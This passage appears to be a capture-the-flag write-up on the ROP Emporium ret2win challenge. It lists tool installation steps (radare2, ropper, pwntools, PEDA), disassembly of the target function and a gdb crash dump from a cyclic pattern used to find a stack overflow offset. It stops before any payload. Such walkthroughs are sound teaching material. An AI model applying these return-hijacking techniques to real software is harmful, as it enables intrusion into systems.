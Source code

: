 Requirement 
===========
First we download the zip file for the challenges:
{% highlight bash%}
wget https://ropemporium.com/binary/rop_emporium_all_challenges.zip
unzip rop_emporium_all_challenges.zip
{% endhighlight %}
Radare2
>Radare2 is a complete framework for reverse-engineering and analyzing binaries; composed of a set of small utilities that can be used together or independently from the command line.

{% highlight bash%}
apt-get install git
git clone https://github.com/radare/radare2
cd radare2
sys/install.sh
{% endhighlight %}
Ropper
>You can use ropper to display information about binary files in different file formats and you can search for gadgets to build rop chains for different architectures (x86/X86_64, ARM/ARM64, MIPS/MIPS64, PowerPC/PowerPC64, SPARC64). For disassembly ropper uses the awesome Capstone Framework.

{% highlight bash%}
apt install python-pip
pip install ropper
{% endhighlight %}
Pwntools
>Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

{% highlight bash%}
apt-get update
apt-get install python2.7 python-pip python-dev git libssl-dev libffi-dev build-essential
pip install --upgrade pip
pip install --upgrade pwntools
{% endhighlight %}
Peda
>PEDA - Python Exploit Development Assistance for GDB

{% highlight bash%}
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
{% endhighlight %}

Ret2win
=======
A first glance at the binary using r2 shows for main functions:
{% highlight bash%}
0x00400746    1 111          sym.main
0x004007b5    1 92           sym.pwnme
0x00400811    1 32           sym.ret2win
{% endhighlight %}
Upon further examination, we can see to which address we need to return:
{% highlight bash%}
/ (fcn) sym.ret2win 32
|   sym.ret2win ();
|           0x00400811      55             push rbp
|           0x00400812      4889e5         mov rbp, rsp
|           0x00400815      bfe0094000     mov edi, str.Thank_you__Here_s_your_flag: ; 0x4009e0 ; "Thank you! Here's your flag:"
|           0x0040081a      b800000000     mov eax, 0
|           0x0040081f      e8ccfdffff     call sym.imp.printf
|           0x00400824      bffd094000     mov edi, str.bin_cat_flag.txt ; 0x4009fd ; "/bin/cat flag.txt"
|           0x00400829      e8b2fdffff     call sym.imp.system
|           0x0040082e      90             nop
|           0x0040082f      5d             pop rbp
\           0x00400830      c3             ret
{% endhighlight %}
Next we need to determine our offset:
{% highlight bash%}
Creating our patterne:
gdb ret2win
pattern_create 200
or 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
{% endhighlight %}
Once we provide our pattern to the binary we are greeted with:
{% highlight bash%}
Program received signal SIGSEGV, Segmentation fault.                                                      
[----------------------------------registers-----------------------------------]                          
RAX: 0x7fffffffe130 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                 
RBX: 0x0                                                                                                  
RCX: 0x0                                                                                                  
RDX: 0x7ffff7fa4590 --> 0x0                                                                               
RSI: 0x6022a1 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'"...)
RDI: 0x7fffffffe131 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                  
RBP: 0x6141414541412941 ('A)AAEAAa')                                                                      
RSP: 0x7fffffffe158 ("AA0AAFAAb")                                                                         
RIP: 0x400810 (<pwnme+91>:      ret)                                                                      
R8 : 0x7fffffffe130 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                 
R9 : 0x7ffff7fa9500 (0x00007ffff7fa9500)                                                                  
R10: 0x410                                                                                                
R11: 0x246                                                                                                
R12: 0x400650 (<_start>:        xor    ebp,ebp)                                                           
R13: 0x7fffffffe240 --> 0x1                                                                               
R14: 0x0                                                                                                  
R15: 0x0                                                                                                  
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)                         
[-------------------------------------code-------------------------------------]                                                                                                                                    
   0x400809 <pwnme+84>: call   0x400620 <fgets@plt>                                                       
   0x40080e <pwnme+89>: nop                                                                               
   0x40080f <pwnme+90>: leave                                                                             
=> 0x400810 <pwnme+91>: ret                                                                               
   0x400811 <ret2win>:  push   rbp                                                                        
   0x400812 <ret2win+1>:        mov    rbp,rsp                                                            
   0x400815 <ret2win+4>:        mov    edi,0x4009e0                                                       
   0x40081a <ret2win+9>:        mov    eax,0x0                                                            
[------------------------------------stack-------------------------------------]                          
0000| 0x7fffffffe158 ("AA0AAFAAb")                                                                        
0008| 0x7fffffffe160 --> 0x400062 --> 0x1f8000000000000                                                   
0016| 0x7fffffffe168 --> 0x7ffff7e0ebbb (<__libc_start_main+235>:       mov    edi,eax)                                                                                                                             
0024| 0x7fffffffe170 --> 0x0                                                                              
0032| 0x7fffffffe178 --> 0x7fffffffe248 --> 0x7fffffffe53a ("/root/ropemporium/ret2win")                  
0040| 0x7fffffffe180 --> 0x100040000                                                                      
0048| 0x7fffffffe188 --> 0x400746 (<main>:      push   rbp)                                               
0056| 0x7fffffffe190 --> 0x0                                                                              
[------------------------------------------------------------------------------]                          
Legend: code, data, rodata, value                                                                         
Stopped reason: SIGSEGV                                                                                   
0x0000000000400810 in pwnme ()   
{% endhighlight %}
